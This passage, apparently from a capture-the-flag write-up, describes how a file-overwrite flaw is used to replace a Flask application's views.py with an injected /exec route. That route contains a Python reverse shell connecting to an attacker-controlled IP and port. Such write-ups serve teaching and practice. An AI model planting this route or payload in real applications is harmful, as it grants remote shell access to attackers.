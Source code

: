 and we can overwrite an existed file indeed !

![error](/assets/images/open-source/20220522211005.png)

With that working we can overwrite the **`views.py`** which controls what to render in the application , we can choose to get us a reverse shell or a remote code execution.

adding this route to the `views.py` so when we request the `/exec` a reverse connection will get back to us

```python
@app.route('/exec')
def evil():
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.31",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
    return ""
```

![error](/assets/images/open-source/20220522211601.png)

requesting the page `/exec` a connection get back to us

![error](/assets/images/open-source/20220522212349.png)
